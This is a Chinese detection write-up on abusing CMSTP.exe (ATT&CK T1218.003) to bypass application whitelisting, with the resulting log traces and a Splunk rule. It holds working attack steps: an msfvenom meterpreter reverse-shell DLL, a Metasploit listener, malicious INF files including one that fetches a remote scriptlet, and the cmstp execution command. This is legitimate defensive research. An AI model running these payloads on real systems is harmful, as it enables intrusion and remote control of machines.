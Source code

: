 # T1218-003-Win-使用Cmstp.exe执行Payload（白名单）

## 来自ATT&CK的描述

微软的命令行程序CMSTP.exe用于安装连接管理器服务配置文件。CMSTP.exe将收到的安装信息文件（INF）作为参数，安装用于远程访问连接的服务配置文件。

攻击者可能会向CMSTP.exe提供带恶意命令的INF文件。与Regsvr32/"Squiblydoo"类似，CMSTP.exe可能被滥用来从远程服务器加载和执行动态链接库和/或COM脚本小程序。攻击者还可能用CMSTP.exe来绕过AppLocker及其他白名单防御，因为CMSTP.exe本身是一个合法的、已签名的微软应用。

CMSTP.exe也可能被滥用来绕过用户账号控制并通过自动升级的COM接口执行INF文件中的任意恶意命令。

## 测试案例

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

微软官方文档：
<https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp>

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

Windows 2003 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### inf模板

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
     C:\payload.dll
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="12306Br0"
    ShortSvcName="12306Br0"
```

INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置

#### 靶机执行payload

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

#### 反弹shell

未成功获取到shell

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0x9b0
新进程名: C:\Windows\System32\cmstp.exe

sysmon日志
事件ID：1
OriginalFileName: CMSTP.EXE
CommandLine: cmstp.exe  /ni /s C:\Users\12306Br0\Desktop\a\add.inf
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
ParentProcessGuid: {bb1f7c32-fdb7-5e9a-0000-0010563b2d00}
ParentProcessId: 1988
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

## inf文件内容

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
    %11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="Micropoor"
    ShortSvcName="Micropoor"
```

## 检测规则/思路

### splunk规则

```yml
index=windows source=”WinEventLog:Microsoft-Windows-Sysmon/Operational” (EventCode=1 Image=”*\\cmstp.exe”) OR (EventCode=10 SourceImage=”*\\cmstp.exe” ) OR (EventCode=10 CallTrace=”*CMLUA.dll*”) (EventCode IN (12,13) TargetObject=”*\\CMMGR32.exe” OR (EventCode=12 TargetObject=”HKLM\\SOFTWARE\\Microsoft\\Tracing\\cmstp*”)
```

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1218-003

<https://attack.mitre.org/techniques/T1218/003/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

基于白名单Cmstp.exe执行payload第十六季

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-87_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Cmstp.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%85%AD%E5%AD%A3.md>
